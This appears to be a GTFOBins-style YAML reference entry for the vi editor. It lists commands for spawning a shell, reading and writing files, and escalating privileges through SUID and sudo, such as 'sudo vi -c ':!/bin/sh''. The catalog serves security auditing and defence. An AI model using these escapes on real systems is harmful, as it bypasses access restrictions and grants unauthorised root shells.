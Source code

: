 ```yaml
---
functions:
  shell:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
    - description: This requires that vi is compiled with Python support.
      code: vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid:
    - code: ./vi -c ':!/bin/sh -p'
  sudo:
    - code: sudo vi -c ':!/bin/sh'
    - description: This requires that vi is compiled with Python support.
      code: sudo vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

